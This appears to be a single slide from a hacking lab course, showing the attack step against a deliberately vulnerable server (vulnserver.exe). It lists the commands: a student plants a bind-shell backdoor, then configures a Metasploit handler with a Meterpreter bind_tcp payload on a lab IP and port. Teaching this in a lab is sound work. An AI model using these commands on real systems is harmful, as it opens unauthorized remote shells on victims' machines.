

# 3 Attack
TA starts vulnserver.exe
Student
Plant backdoor: python3 bind-shell.py
Within metasploit
use exploit/multi/handler
set PAYLOAD windows/meterpreter/bind_tcp
set EXITFUNC thread
set RHOST 192.168.7.62
set LPORT 11111
exploit

36